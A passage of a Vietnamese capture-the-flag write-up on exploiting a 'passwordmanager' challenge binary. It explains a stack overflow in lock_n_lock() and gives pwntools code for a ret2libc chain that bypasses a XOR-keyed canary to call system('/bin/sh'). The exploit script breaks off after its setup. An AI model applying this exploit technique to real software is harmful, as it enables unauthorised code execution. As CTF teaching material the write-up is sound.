 ### Get shell
- sau khi leak dc fake canary, canary và libc rồi thì ta hoàn toàn có thể ret2libc để lấy shell
- nhưng vấn đề là ret2libc vào hàm nào , cùng phân tích xíu né
- có 2 hàm cho phép ta gán giá trị vào stack, đó là edit_cred và lock_n_lock()
- hàm edit_cred chỉ cho phép ta nhập vào bằng note_size, giới hạn chỉ 256byte < s, hoàn toàn ko thể overwrite được
- còn hàm lock_n_lock() gán vào stack cái data của note XOR với key theo size của note, hmmm, lúc này size thằng idx 1 đang là 0x200 > 0x100 của biến s, nếu vậy memcpy() nó sẽ lấy luôn 0x100 thằng idx 2 gán vào trong stack ==>  BOF 
- để dễ hình dung thì các bạn có thể ảnh dưới: 

![image](https://github.com/gookoosss/CTF/assets/128712571/79100931-6947-4e33-b0ac-3f6de2ebf50a)


- vậy nên ta sẽ để payload ^ key trước, sau đó edit_crd() idx 2, lúc gàn vào stack thì payload ^ key ^ key == payload ==> ret2libc

```python
### get shell ###
pop_rdi = libc.address + 0x00000000000240e5
ret = libc.address + 0x0000000000022fd9

payload = flat(
    fake_canary ^ key,
    canary ^ key,
    key,
    pop_rdi + 1 ^ key,
    pop_rdi ^ key,
    next(libc.search(b'/bin/sh'))^ key,
    libc.sym.system ^ key,

)
edit(2, payload)
lock_n_lock()
```
- dee cuối cùng cũng lấy dc shell

![image](https://github.com/gookoosss/CTF/assets/128712571/2ed57f97-9fcd-416e-a35f-2b853aaa7fc3)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./passwordmanager_patched")
libc = ELF("./libc6_2.37-0ubuntu2_amd64.so")
ld = ELF("./ld-2.37.so")

context.binary = exe


p = process([exe.path])

def GDB():
    gdb.attach(p, gdbscript = '''
    b*main+132
    b*edit_cred+572
    b*lock_n_lock+670
    b*lock_n_lock+0
    c
    ''')
    
```